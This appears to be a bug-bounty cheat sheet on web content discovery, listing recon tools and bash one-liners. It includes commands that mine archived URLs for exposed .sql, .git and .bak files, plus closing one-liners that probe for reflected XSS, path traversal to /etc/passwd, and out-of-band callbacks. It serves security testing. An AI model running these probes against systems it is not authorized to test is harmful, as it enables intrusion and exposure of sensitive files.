 
## Content Discovery
The process of finding endpoints; URLs, Parameters and Resources

### Methods
- Active Discovery — Brute Force (the right way) and Self Crawling.
- Passive Discovery — Common Crawl, WayBackMachine, Existing databases, and More.
- Manual Discovery — Google Dorking, Aquatone.
- Essential Utility Tools

#### Active Discovery
- Manually Browse Target And Functions
- Fexobuster Best | Gobuster slow 
url : https://github.com/epi052/feroxbuster

- Meg
Another thing most hunter’s overlook: websites don’t like being spammed with requests.
Meg will take two parameters, a list of domains to h̶a̶r̶a̶s̶s̶ test, and a wordlist of url paths (or just one). It will then try every domain against one entry from the wordlist

- Self Crawling
[hakrawler](https://github.com/hakluke/hakrawler)

### Passive Discovery
- Gau | It user common crawl datesheet
- WayBackurls | It uses wayback datesheet
- Google Dorks | you know
- Take ScreenShort of all url and subdomain eyewitness and aquatone
- Url Enumeration — Subset of Content Discovery: finding existing endpoints.
- [gauplus Faster than gau much much much](https://github.com/bp0lr/gauplus)

### Split A long list into parts
```bash
split -n 4 -d --additional-suffix=".txt" alive.txt part
```

### Harnessing The Potential Of Gauplus
```bash
cat allsub.txt | gauplus -subs | grep -i "\.xlsx" allurl.txt | anew xlsx.txt
cat allsub.txt | gauplus -subs | grep -i "\.sql" allurl.txt | anew sql.txt
cat allsub.txt | gauplus -subs | grep -i "\.log" allurl.txt | anew log.txt
cat allsub.txt | gauplus -subs | grep -i "\.git" allurl.txt | anew git.txt
cat allsub.txt | gauplus -subs | grep -i "\.bak" allurl.txt | anew bak.txt
```

#### Low hanging fruits one liner
```bash
cat allsub.txt | gauplus -subs | grep "=" | Gxss -c 100 | anew reflected.txt
cat allsub.txt | gauplus -subs | grep "=" > url.txt;httpx-l url.txt -path "/////../../../../../../../../etc/passwd" -status-code -mc 200 -ms 'root:'
cat allsubs.txt | gauplus -subs | qsreplace "burp.collan" | httpx
```
